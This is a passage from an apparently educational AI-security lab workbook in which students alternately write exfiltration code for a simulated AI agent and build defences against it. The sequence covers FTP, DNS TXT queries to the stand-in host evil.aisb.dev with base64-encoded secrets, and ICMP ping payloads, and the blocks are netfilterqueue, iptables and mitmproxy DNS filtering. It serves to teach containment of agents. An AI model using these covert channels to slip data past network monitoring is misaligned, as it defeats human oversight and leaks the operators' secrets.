test_make_evil_request_ftp(make_evil_request_ftp)

exfiltrate_data = make_evil_request_ftp
```

#### Next Steps
Since the defender can no longer inspect the HTTPS traffic content (and even if this is possible, it is starting to look like having a list of all bad domains could be challenging),
we'll need to move to network-level blocking strategies. In addition to using multiple domains, we are also using other protocols that aren't HTTP-based, so the HTTP proxy isn't able to intercept them.

In the next exercise, we'll see how defenders can block TCP connections to known malicious IPs and domains.


## 4️⃣ Network-Level Traffic Control

In the previous exercise, the agent started using FTP to evade our HTTP/HTTPS restrictions. Now we need to implement a more fundamental network control: blocking TCP traffic at the packet level.

### Understanding the Linux Network Stack

When a packet arrives at a network interface, it travels through several layers of the kernel before reaching an application (or being forwarded). The journey begins at the Network Interface Card (NIC), which generates an interrupt when packets arrive. The device driver handles this interrupt and places the packet into a ring buffer, then schedules a software interrupt (softirq) for further processing.

The packet then moves through the link layer processing, where the kernel validates checksums and strips the Ethernet header. Next comes the network layer (IP layer), where the kernel determines whether the packet is destined for the local machine or needs to be forwarded. For local packets, they proceed up to the transport layer (TCP/UDP), where protocol-specific processing occurs, including connection tracking, sequence number validation, and acknowledgments. Finally, the data reaches the socket buffer where applications can read it.

Netfilter is the kernel framework that provides packet filtering, network address translation (NAT), and packet mangling capabilities. It operates by inserting "hooks" at strategic points in the packet flow path. These hooks are: PREROUTING (packets entering the system before routing decisions), INPUT (packets destined for local processes), FORWARD (packets being routed through the system), OUTPUT (locally generated packets), and POSTROUTING (all packets leaving the system after routing).

At each hook point, netfilter maintains chains of rules that can inspect and manipulate packets. The kernel calls registered functions at these hooks in priority order, and each function can return a verdict: accept, drop, queue, stolen, or repeat.

#### How NFQUEUE Works

NFQUEUE (netfilter queue) is a special mechanism that allows packets to be passed from kernel space to a userspace program for processing. When a netfilter rule specifies the NFQUEUE target, instead of making an immediate decision about the packet, the kernel suspends packet processing and sends the packet to a userspace queue.

```
Application → Socket → Kernel Network Stack → iptables rules → NFQUEUE
                                                                   ↓
                                                             User-space program
                                                                   ↓
                                                              Accept/Drop
```

#### iptables Rules
**iptables** is Linux's built-in firewall that controls network traffic using rules. It can allow, block, or redirect packets based on various criteria.

The rule we'll use is:
```bash
iptables -A OUTPUT -p tcp -j NFQUEUE --queue-num 0
```

Breaking this down:
- `-A OUTPUT`: Append to the OUTPUT chain (for locally-generated packets, i.e., traffic leaving the system)
- `-p tcp`: Match TCP protocol packets
- `-j NFQUEUE`: Jump to NFQUEUE target (send to user-space)
- `--queue-num 0`: Use queue number 0 (the queue our program binds to)

<details>
<summary>Vocabulary: Netfilter Concepts</summary><blockquote>

- **Chain**: A list of rules that packets traverse (INPUT, OUTPUT, FORWARD, etc.)
- **Target**: The action to take when a rule matches (ACCEPT, DROP, NFQUEUE, etc.)
- **Netlink**: A Linux kernel interface for communication between kernel and user-space
- **Queue Number**: Identifies which user-space program receives the packets

</blockquote></details>

### Exercise 7: Blocking TCP Traffic with netfilterqueue
#### Exercise 7.1 - Implement TCP Blocking

> **Difficulty**: 🔴🔴🔴⚪⚪
> **Importance**: 🔵🔵🔵🔵🔵
>
> You should spend up to ~15 minutes on this exercise.

Implement a packet filter that blocks TCP traffic to specific IP addresses.

Use scapy to parse packets and check if the destination IP is in the predefined blocklist.

⚠️ The code below belongs in the **`w1d2_answers_nfqueue.py` file** (the last answer file you haven't edited yet).


```python

try:
    from scapy.all import IP

    import importlib

    # Don't use `import netfilterqueue` directly because that would get to the _test file, which would then fail when imported in the mitmproxy container.
    netfilterqueue = importlib.import_module("netfilterqueue")
    NetfilterQueue = getattr(netfilterqueue, "NetfilterQueue")
except ImportError:
    print("nfqueue and/or scapy not installed. Ignoring this error for scuffed reasons.")

    class NetfilterQueue:
        def bind(self, *args, **kwargs):
            print("Warning: NetfilterQueue not available. This is a scuffed solution.")

        def run(self):
            print("Warning: NetfilterQueue run method not available. This is a scuffed solution.")

        def unbind(self):
            print("Warning: NetfilterQueue unbind method not available. This is a scuffed solution.")


# IP to block
BLOCKED_IPS = ["49.12.34.32", "85.188.1.133"]


def process_packet(packet):
    """
    Process packets from NFQUEUE and decide whether to accept or drop them.

    This function is called for each packet that matches our iptables rule.
    You need to:
    1. Parse the packet payload using Scapy
    2. Check if it's destined for a blocked IP
    3. Drop blocked packets, accept others

    Args:
        packet: NetfilterQueue packet object
    """
    # TODO: Implement packet filtering logic
    # 1. Parse the packet payload using scapy.IP(packet.get_payload())
    # 2. Check if the destination IP (pkt.dst) is in BLOCKED_IPS:
    #    - Log the blocked packet
    #    - Call packet.drop()
    # 3. Otherwise, call packet.accept()
    # 4. Handle exceptions by dropping the packet for safety
    pass
from w1d2_test import test_packet_processor
test_packet_processor(process_packet)
print("Starting packet filter...")
nfqueue = NetfilterQueue()
nfqueue.bind(0, process_packet)
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("Stopping packet filter...")
finally:
    nfqueue.unbind()
```

**Docker Configuration**

Now that you've implemented the packet filter, you need to update your Docker configuration to run both the defender and agent with proper networking setup.

Update the CMD in your Dockerfile to run the packet filter and agent together:
```dockerfile
CMD ["bash", "start-agent.sh"]
```

The start-agent.sh script is already provided for you in the repo.
If you look inside the script, notice that the `w1d2_answers_nfqueue.py` file you edited ealier is started in the background with the `&` operator.

Stop docker compose and re-run it with **`docker-compose up --build`**.

You should see that the agent cannot access the FTP server anymore - there should be a log message indicating a timeout `agent-container  | FTP request failed: timed out`. You can also inspect output of the `w1d2_answers_nfqueue.py` file with:
```bash
docker compose exec -it agent cat /tmp/nfqueue.log
```


#### Exercise 7.2 - Denylists vs Allowlists

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪
>
> You should spend up to ~10 minutes on this exercise.

<details>
<summary>So far, you've been using a denylist - listing IPs or domains that should be blocked. Think about the implications of this, and what switching to an allowlist might look like.</summary><blockquote>

Think about the implications of using a denylist (aka blacklist, aka blocklist) instead of an allowlist (aka whitelist, aka acceptlist): you're essentially saying "I trust everything in the world except these specific bad actors I've identified." This creates a fundamental asymmetry where attackers have the advantage—they can spin up new domains in minutes, hop between IP addresses, or compromise legitimate infrastructure, while defenders are always playing catch-up. A blacklist (blocklist/denylist) blocks known malicious destinations but allows everything else by default, meaning your security depends entirely on your ability to discover and block threats faster than attackers can create new infrastructure.

An allowlist inverts this model by following the principle of least privilege: only explicitly approved destinations are permitted, and everything else is blocked by default. This dramatically reduces your attack surface from "the entire internet minus your blacklist" to "only the specific services you've approved." For AI agents, where you need tight control over external communications, this explicit control is essential. Yes, whitelists require more upfront planning and ongoing maintenance as legitimate business needs evolve, but this trade-off is worth it—it's far better to occasionally add a new approved service than to constantly chase after malicious infrastructure that may have already exfiltrated sensitive data. In high-security contexts, the question isn't whether you can afford to implement whitelisting, but whether you can afford not to.
</blockquote></details>


## 5️⃣ Covert Channels and Advanced Evasion

### Exercise 8: I don't need TCP

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~10 minutes on this exercise.


The previous exercise blocked our TCP connections. However, we can use UDP instead of TCP to exfiltrate data.
In practice, we can use the DNS protocol to hide our data in DNS requests, which are typically allowed through firewalls and not inspected by proxies.

We will be making simple static requests and getting static responses, but tools like (dnscat2)[https://www.kali.org/tools/dnscat2/] let you create a full-duplex communication channel over DNS, allowing you to send and receive arbitrary data.

Implement the `make_evil_request_dns` function that sends a DNS request to fetch TXT records from evil.aisb.dev

The code below belongs in the **`w1d2_answers_agent.py` file**.


```python

import dns.resolver as dns_resolver  # Alias to avoid conflict with mitmproxy.dns

resolver = dns_resolver.Resolver()
resolver.nameservers = ["8.8.8.8", "1.1.1.1", "127.0.0.1"]


def make_evil_request_dns(secret_data: str) -> Optional[str]:
    """
    Send a DNS request to evil.aisb.dev to exfiltrate secret data.

    This simulates an AI agent attempting to communicate using DNS queries.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the DNS query, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Construct a domain like secret_data.evil.aisb.dev (remember to encode secret_data with base64.urlsafe_b64encode)
    #   2. Perform a DNS query for TXT records using resolver.resolve
    #   3. Return the first TXT record found, or None if no records are found
    pass
from w1d2_test import test_make_evil_request_dns
test_make_evil_request_dns(make_evil_request_dns, resolver)

# Set the exfiltration function for use in the exercise
exfiltrate_data = make_evil_request_dns
```

**Restart docker containers** and run them again with `docker-compose up` to see the effect of your changes.


### Exercise 9: Modifying DNS Requests

In the last exercise, the agent switched to using DNS for exfiltration - so let's look at how we might intercept and block DNS requests.

**Intercepting DNS with mitmproxy**

mitmproxy can intercept DNS traffic when running in DNS mode. This allows us to:
- Monitor DNS queries
- Block suspicious domains
- Modify DNS responses

<details>
<summary>Vocabulary: DNS Record Types</summary><blockquote>

- **A Record**: Maps domain to IPv4 address
- **AAAA Record**: Maps domain to IPv6 address
- **TXT Record**: Contains arbitrary text data (often used for verification)
- **CNAME**: Canonical name (alias) for another domain
- **MX**: Mail exchange servers

For exfiltration, TXT records are most commonly abused due to their flexibility.

</blockquote></details>

#### Exercise 9.1 - Implement DNS Filtering

> **Difficulty**: 🔴🔴🔴🔴⚪
> **Importance**: 🔵🔵🔵🔵🔵
>
> You should spend up to ~20 minutes on this exercise.

Implement a DNS interceptor that blocks TXT queries to suspicious domains.


```python

from mitmproxy import dns as mitmproxydns  # alias to avoid conflict with dnspython
import base64


def get_packet(question, request):
    msg_cls = (
        mitmproxydns.DNSMessage if hasattr(mitmproxydns, "DNSMessage") else mitmproxydns.Message
    )  # mac has Message, linux has DNSMessage ??
    return msg_cls(
        id=request.id,  # Match the request's transaction ID
        op_code=0,  # Standard query opcode
        authoritative_answer=False,  # Not authoritative
        truncation=False,  # Not truncated
        recursion_desired=True,  # RD flag set
        recursion_available=True,  # RA flag set
        response_code=0,  # NOERROR
        questions=request.questions,
        answers=[
            mitmproxydns.ResourceRecord(
                name=question.name,
                type=question.type,
                class_=question.class_,
                ttl=60,
                # this is intentionally base64 encoded - look at exercise 8.1a for more details
                data=base64.decodebytes(b"GGJsb2NrZWQgYnkgRE5TIGZpbHRlciA6KQ=="),
            )
        ],
        authorities=[],  # No authority records
        additionals=[],  # No additional records
        timestamp=request.timestamp,
        query=False,  # This is a response, not a query
        reserved=0,  # Reserved bits must be 0
    )


class DNSInterceptor:
    """
    Intercept and modify TXT requests to any subdomain of evil.aisb.dev.

    This addon demonstrates how to read and rewrite DNS requests
    """

    def dns_request(self, flow: mitmproxydns.DNSFlow) -> None:
        """
        Intercept DNS requests before they are sent to the upstream server.

        You need to:
        1. Check if the flow contains a request
        2. Iterate through questions in the request
        3. Identify TXT record queries (type == 16)
        4. Block queries to suspicious domains

        Args:
            flow: The DNS flow object containing the DNS query
        """
        # TODO: Implement DNS filtering
        #   1. Check if flow.request exists
        #   2. Loop through flow.request.questions
        #   3. Check if question.type == 16 (TXT record)
        #   4. If question.name is a blocked domain:
        #      - Set flow.response = get_dns_block_response(question, flow.request)
        pass
addons = [RequestBlocker(), DNSInterceptor()]
```

#### Exercise 9.1a - implement get_packet function (quite difficult, very optional)

You used `get_packet` to make a packet for your DNS response. If you'd like to understand the internals of DNS,
you should try to implement this function yourself without looking at our implementation. There is a bug in mitmproxy
that makes this quite a bit less straightforward than it should be, and figuring out why this is wrong can be a good exercise.

#### Exercise 9.2: Block UDP Traffic to External Servers

To fully implement DNS filtering, you need to update the network configuration to block UDP traffic to other servers.

**Update start-agent.sh:** Uncomment the iptable rules below to control UDP traffic:

```bash
# Allow all traffic from root user (UID 0)
sudo iptables -A OUTPUT -p udp -m owner --uid-owner 0 -j ACCEPT
# Allow UDP to localhost:53 (for DNS to your mitmproxy)
sudo iptables -A OUTPUT -p udp -d 127.0.0.1 --dport 53 -j ACCEPT
# Allow established connections (for responses)
sudo iptables -A OUTPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
# Drop all other UDP traffic
sudo iptables -A OUTPUT -p udp -j DROP
```

**Update docker-compose.yml**

Modify your mitmdump command to include DNS mode:

```yaml
mitmdump --mode dns@53 ...
```

Then restart the containers.

**Test the interceptor**
Try running the agent again and see if it can still resolve domains. You should see that TXT queries to `evil.aisb.dev` are blocked, while other queries are allowed.

At this point, we are:
1. Proxying HTTP/HTTPS traffic with mitmproxy
2. Blocking TCP traffic to specific IPs with netfilterqueue
3. Intercepting and modifying DNS requests

Test these by updating the exfiltrate_data variable to any of the functions in w1d2_answers_agent.py - the agent should not be able to get through the defenses we have built so far.


## Exercise 10: playing ping pong (optional)

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

Now that we have secured the TCP and UDP channels, we are safe...right?

Not quite! We can still use ICMP (ping) packets to exfiltrate data.

ICMP is a network layer protocol used for diagnostic and control functions, primarily for reporting errors and exchanging control messages between network devices.
It's commonly used for "ping" (ICMP echo request and reply) to check network connectivity. However, we can use it to send small amounts of data to a server.


```python

from scapy.all import IP, ICMP, sr1, Raw


def make_evil_request_icmp(secret_data: str) -> Optional[str]:
    """
    Send an ICMP Echo Request to exfiltrate secret data.

    This simulates an AI agent attempting to communicate using ICMP packets.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the ICMP Echo Reply, or None otherwise
    """
    # TODO: Implement the function to:
    #   1. Create an ICMP packet with the secret_data as payload
    #   2. Send the packet to a known IP address (e.g., 1.1.1.1)
    #   3. Wait for an ICMP Echo Reply
    #   4. Return the payload from the reply if successful, None otherwise
    pass


exfiltrate_data = make_evil_request_icmp
```